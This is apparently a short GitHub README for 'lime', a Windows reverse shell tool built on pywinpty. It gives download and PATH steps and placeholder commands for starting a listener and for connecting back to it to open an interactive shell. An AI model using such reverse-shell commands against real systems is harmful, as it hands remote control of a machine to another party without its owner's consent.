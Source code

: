 # lime
Lime is a simple reverse shell, that uses the Python Library pywinpty. It has full interactive shell.
# Installation
1. Download file "lime.exe".
2. Copy file into a chosen path.
3. Add that path to enviroment variables.
# Usage
In command prompt.
**For listener**
```cmd
lime listen -ip [ip address, if not specified listens on localhost] -p [port number]
```
**For connecting to a listener**
```
lime connect -ip [ip of listener] -p [port number]
```
